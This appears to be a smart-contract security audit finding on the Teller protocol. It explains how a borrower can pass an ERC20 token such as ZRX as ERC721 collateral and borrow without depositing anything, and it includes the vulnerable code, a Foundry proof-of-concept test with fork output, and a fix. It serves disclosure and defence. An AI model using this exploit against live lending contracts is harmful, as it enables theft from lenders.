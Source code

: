Ruhum

medium

# Attacker can borrow funds without putting up collateral

## Summary
The CollateralManager contract doesn't use `safeTransferFrom()` when transferring ERC721 tokens. By setting the collateral type to `ERC721` we can commit ERC20 collaterals as well. Certain tokens don't revert when the transfer fails, e.g. ZRX. Instead, they just return `false`. By using such a token it's possible to borrow funds without putting up any collateral.

## Vulnerability Detail
The CollateralManager doesn't use `safeTransferFrom()` for ERC721  tokens in `_deposit()`. So tokens that return `false` when the transfer fails won't cause the tx to revert:
```sol
else if (collateralInfo._collateralType == CollateralType.ERC721) {
            IERC721Upgradeable(collateralInfo._collateralAddress).transferFrom(
                borrower,
                address(this),
                collateralInfo._tokenId
            );
            IERC721Upgradeable(collateralInfo._collateralAddress).approve(
                escrowAddress,
                collateralInfo._tokenId
            );
            collateralEscrow.depositAsset(
                CollateralType.ERC721,
                collateralInfo._collateralAddress,
                collateralInfo._amount,
                collateralInfo._tokenId
            );
        }
```
Neither does the CollateralEscrow contract:
```sol
        else if (_collateralType == CollateralType.ERC721) {
            require(_amount == 1, "Incorrect deposit amount");
            IERC721Upgradeable(_collateralAddress).transferFrom(
                _msgSender(),
                address(this),
                _tokenId
            );
        }
```

Here's a simple PoC:
```sol
// CollateralManager_Test.sol
    function test_deposit_attack() public {
        uint256 bidId = 0;
        uint256 amount = 1000;
        ERC20 zrx = ERC20(0xE41d2489571d322189246DaFA5ebDe1F4699F498);
        deal(address(zrx), address(borrower), amount);
        
        // we never approve the collateral manager to access our zrx tokens

        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC721,
            _amount: amount,
            _tokenId: 0,
            _collateralAddress: address(zrx)
        });

        tellerV2Mock.setBorrower(address(borrower));

        collateralManager.setGlobalEscrowProxyAddress(
            address(escrowImplementation)
        );

        vm.expectEmit(false, false, false, false);
        emit CollateralDeposited(
            bidId,
            collateral._collateralType,
            collateral._collateralAddress,
            collateral._amount,
            collateral._tokenId
        );
        vm.prank(address(borrower));
        collateralManager._depositSuper(bidId, collateral);

        // executed deposit without pulling ZRX tokens from borrower
        assertEq(zrx.balanceOf(address(borrower)), amount);
    }
```
Output:
```shell
forge test --match test_deposit_attack -vvv --fork-url https://eth.llamarpc.com
> [⠒] Compiling...
> No files changed, compilation skipped

> Running 1 test for tests/CollateralManager_Test.sol:CollateralManager_Test
> [PASS] test_deposit_attack() (gas: 245594)
> Test result: ok. 1 passed; 0 failed; finished in 7.52ms
```
## Impact
Bid is accepted without depositing the collateral into an escrow contract.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L343

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/escrow/CollateralEscrowV1.sol#L129

## Tool used

Manual Review

## Recommendation
Use `safeTransferFrom()` for ERC721 tokens as well.